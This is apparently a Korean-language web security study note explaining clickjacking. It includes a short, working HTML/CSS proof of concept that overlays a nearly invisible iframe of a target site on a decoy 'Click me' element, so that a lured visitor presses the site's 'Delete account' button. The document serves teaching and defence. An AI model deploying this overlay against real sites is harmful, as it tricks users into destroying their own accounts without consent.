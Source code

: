 ### 5.2.1. 예제-1

계정설정 창에 보면, Delete account- 계정삭제 버튼이 있다.
이 버튼을 누르도록 유인하는 것이 목표 

내 사이트에 iframe으로 타겟 사이트를 가져온다. 
그리고 그 위에 다른 위장용 레이어를 더하여 버튼을 클릭하게 유도한다. 

위치가 정확히 맞아야 하기에 여러 번 테스트를 하며 조정함. 그리고 iframe은 안보이게 만들어줌. 

```html
<style> 
   iframe {
       position:relative; 
       width:700px; 
       height: 500px;
       opacity: 0.001; 
       z-index: 2; 
   } 
   div { 
       position:absolute; 
       top:330px; 
       left:60px; 
       z-index: 1; 
   } 
</style>
<!--width, height, top, left 값을 테스트하며 조정해야함.-->
<div>Click me</div> <!--위에 덮어쓸 문구--> 
<iframe src="https://타겟 사이트URL"></iframe> 
 
```



그리고 이 사이트의 URL을 보내서 다른 유저가 방문을 하면, Click me라는 문구만 보이게 된다. 

<img src='./images/theory/cj-1.png'>

